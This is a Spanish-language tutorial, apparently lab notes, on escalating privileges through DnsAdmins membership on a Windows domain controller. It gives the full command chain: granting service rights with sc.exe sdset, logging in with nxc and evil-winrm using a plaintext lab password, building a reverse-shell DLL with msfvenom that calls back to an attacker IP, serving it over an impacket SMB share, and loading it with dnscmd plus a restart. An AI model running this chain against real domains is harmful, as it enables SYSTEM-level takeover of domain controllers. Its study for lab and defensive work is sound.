>[Referencia del ataque y abuso del grupo DnsAdmins](https://www.semperis.com/es/blog/dnsadmins-revisited/)

Técnica que permite abusar de la pertenencia al grupo **DnsAdmins** ya sea de forma individual como miembro o por pertenecer a un grupo cual pertenece a este mismo, nos hace automáticamente miembros de este. La particularidad del ataque es crear una DLL maliciosa para manipular el servicio DNS, para que a la hora de cargar dicha DLL, parar y recargar el servicio DNS, ejecute la DLL pudiendo obtener una shell como Administrador o ejecutar una tarea privilegiada. Otra opción, es ejecutar la DLL y esperar a que el DC se reiniciara.

>El grupo "**DnsAdmins**" es un grupo especial que tiene privilegios administrativos sobre el servicio DNS del dominio.

Se lleva a cabo cuando tenemos el rol del servidor de DNS instalado en el dominio. Para comprobar a nivel atacante si esta instalado y activo el servicio DNS, una vez ganado acceso al sistema, tenemos que comprobar que somos miembros del grupo **DnsAdmins**, ejecutamos estos comando:

```bash
# Consultar la información del usuario actual
net user dvazquez

# Listar los miembros del grupo DnsAdmins
net localgroup DnsAdmins
```




### COMO CONFIGURAR EL ATAQUE
Como necesitamos pertenecer al grupo de **DnsAdmins** y tener el servicio de DNS operativo, nos tenemos que asegurar que tenemos el rol de *DNS Server* instalado en nuestro dominio (Incluye el rol + las herramientas oportunas para su administración a nivel de servidor).

>Es básicamente obligatorio instalarlo mientras se crea el Dominio.




Una vez instalado el servidor DNS, para comprobar que esta instalado, ejecutamos el siguiente comando:

```bash
# Consulta si el rol del servidor DNS esta instalado.
Get-WindowsFeature -Name DNS
```




Tras instalar dicho rol, se creará el grupo **DnsAdmins** cual será el vector principal de está técnica.




Agregaremos un nuevo usuario al grupo, en este caso será <span style="color:blue">David Vazquez</span>:




Aceptamos los cambios.




Como necesitamos tener acceso al sistema con dicho usuario, le haremos miembros también del grupo **Remote Management Users** para que se pueda conectar de forma remota por el puerto 5985 WinRM con *evil-winrm*.




A continuación hay 2 rutas a seguir dependiendo del tipo de permisos que tengamos con el usuario actual comprometido. Este paso es necesario, ya que aunque la cuenta del usuario pertenezca al grupo **DnsAdmins**, por defecto no posee privilegios de administrador local ni control sobre el Administrador de Control de Servicios (SCM). 

En este caso no podríamos usar el binario *sc.exe*, por eso existe otra forma de llevar a cabo esta técnica que veremos más adelante, sin necesidad de tener dichos permisos:




Para entender por qué se produce este bloqueo, consultamos la cadena **SDDL** (_Security Descriptor Definition Language_) que define las listas de control de acceso (*DACL*) del servicio DNS a nivel local:

```bash
# Muestra los permisos de seguridad actuales (en formato SDDL) asignados al servicio DNS de Windows
sc.exe sdshow DNS

# Cadena SDDL por defecto sin permisos de administración
"D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```




Para modificar y aplicar los permisos pertinentes lo haremos de la siguiente forma, primero consultamos el SID del grupo DnsAdmins para agregarle permisos de administración (**Gestión, consulta y modificación de servicio**) del servicio:

```bash
# Comando de PowerShell para extraer el identificador (SID) único del grupo DnsAdmins
(Get-ADGroup "DnsAdmins").Sid.Value

# Inyectar los permisos necesarios directamente en el SCM del servicio DNS
sc.exe sdset DNS "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPCCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2396173180-1800561420-74708456-1101)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"

# Muestra los permisos de seguridad actuales (en formato SDDL) asignados al servicio DNS de Windows
sc.exe sdshow DNS
```




Una vez aplicado los permisos de seguridad de SDDL sobre el servicio DNS, al hacer de nuevo la consulta ya no estaremos restringidos a nivel de permisos y nos dejará usar el binario *sc.exe*.

```bash
# Consulta el estado del servicio DNS en tiempo de ejecución.
sc.exe query DNS
```




Comandos en caso querer reiniciar todo lo relacionado con el DNS desde el DC:

```bash
# Fuerza la detención inmediata del servicio DNS de Windows
taskkill /F /IM dns.exe

# Elimina del Registro de Windows la clave maliciosa que cargaba la DLL 
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters" -Name "ServerLevelPluginDll" -ErrorAction SilentlyContinue

# Arrancar el servicio DNS
sc.exe start dns
o
net start dns

# Restablecer o vaciar el plugin cargado
dnscmd.exe /config /serverlevelplugindll $null
```




### COMO REPLICAR EL ATAQUE
Como tenemos el usuario <span style="color:blue">David Vazquez</span> dentro del dominio vamos a validarlo (samba). Su sAMAcount es <span style="color:blue">dvazquez</span>.

```bash
nxc smb DC-01 -u 'dvazquez' -p '@DnsPower!2026'
```




Aparte comprobamos si es válido por winrm, y como le hicimos miembro del grupo **Remote Management Users** saldrá <span style="color:yellow">(Pwn3d!)</span> porque tendremos acceso completo por dicho servicio para conectarnos por remoto.

```bash
nxc winrm DC-01 -u 'dvazquez' -p '@DnsPower!2026'
```




Con *evil-winrm* nos conectamos de forma remota al controlador de dominio.

```bash
# Conectarse por WinRM
evil-winrm -u dvazquez -p '@DnsPower!2026' -i 10.10.10.2

# Consultar el apodo del equipo actual
hostname

# Consultar los parámetros de red de la sesión actual
ipconfig
```




Para empezar con la resolución de está técnica, tiraremos de un repositorio Online de Github que es parecido a *GTFObins* en Linux pero para binarios de Windows.

>[Repositorio de Lolbas al binario Dnscmd.exe](https://lolbas-project.github.io/#dns)

Buscamos el binario nativo *Dnscmd.exe* y le pinchamos en el nombre.




Nos va a decir como podemos cargar nuestra DLL maliciosa, dejándonos la sintaxis por defecto abajo.

```bash
dnscmd.exe (dc1.lab.int) /config /serverlevelplugindll \\servername\C$\Windows\Temp\file.dll
```




La idea es para el servicio de DNS establecer un nuevo archivo de configuración de una DLL es que tire de un recurso compartido a nivel de red cual va a tirar de mi equipo porque va a ser compartido a través de un recurso compartido que nosotros levantamos.

La DLL contendrá una reverse shell que al ejecutarse recibir posteriormente la shell privilegiada.

```bash
# Crear payload para DLL maliciosa
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.5 LPORT=443 -f dll -o pwned.dll
```




Seguidamente para los preparativos, nos levantaremos un recurso compartido a nivel de red llamado "**smbFolder**" en el directorio actual donde se aloja nuestra DLL, y cargaremos a posterior. Nos ponemos a la escucha con *netcat* para recibir la conexión víctima.

```bash
# Levantrar recurso compartido a nivel de red
impacket-smbserver smbFolder $(pwd) -smb2support

# Estar a la escucha por el puerto 443 para cuando se ejecute la DLL
nc -nlvp 443

# Cargar DLL maliciosa a través de nuestro share
dnscmd.exe /config /serverlevelplugindll \\10.10.10.5\smbFolder\pwned.dll
```




#### REINICIAR DC
Una de las formas en las que podemos escalar privilegios mediante esta técnica, es que se reinicie el controlador de dominio, ya sea accidentalmente o durante una tarea que requiera su reinicio.




Tras ello, como se reinicia también el servicio de DNS, se ejecutará la DLL y ganaremos acceso escalando privilegios como <span style="color:blue">autoridad del sistema</span>.




#### 1º FORMA MANUAL: DNSCMD
En esta primera forma, en caso de no tener los suficientes permisos como explicamos anteriormente, no hace falta tener permisos de administración local en el SCM porque utiliza llamadas RPC legítimas del protocolo DNS que validan la autorización directamente a través de las ACLs del contenedor MicrosoftDNS.

Esto es lo que autoriza a los miembros de dicho grupo a modificar los parámetros de configuración del DNS. Por ejemplo, **Cargar la DLL maliciosa** o **reiniciar el servicio**, etc.




Repetimos los mismos pasos preparativos anteriores, pero en este caso usaremos el binario nativo administrativo *dnscmd.exe* para cargar y reiniciar la DLL. Tras ello, recibiremos las shell como <span style="color:blue">autoridad del sistema</span>.

```bash
# Levantrar recurso compartido a nivel de red
impacket-smbserver smbFolder $(pwd) -smb2support

# Estar a la escucha por el puerto 443 para cuando se ejecute la DLL
nc -nlvp 443

# Cargar DLL maliciosa a través de nuestro share
dnscmd.exe /config /serverlevelplugindll \\10.10.10.5\smbFolder\pwned.dll

# Reiniciar el servicio DNS
dnscmd.exe /restart
```

